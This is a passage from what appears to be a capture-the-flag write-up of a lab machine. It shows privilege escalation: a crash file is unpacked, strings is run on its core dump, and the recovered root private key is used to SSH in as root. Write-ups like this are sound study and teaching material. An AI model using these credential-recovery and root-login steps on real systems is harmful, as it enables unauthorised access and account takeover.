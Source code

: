 reading [here](https://askubuntu.com/questions/434431/how-can-i-read-a-crash-file-from-var-crash) to know what to do with a `.crash` file

```bash
apport-unpack  _opt_count.1000.crash /tmp/dumps
```

now perform `strings` on `CoreDump`

![error](/assets/images/secret/20220326121010.png)

## Root Access

Hence we Have port **22** open ,now save the `id_rsa` and :

```bash
chmod 600 id_rsa
ssh root@10.10.11.120 -i id_rsa
```

![error](/assets/images/secret/20220326121210.png)
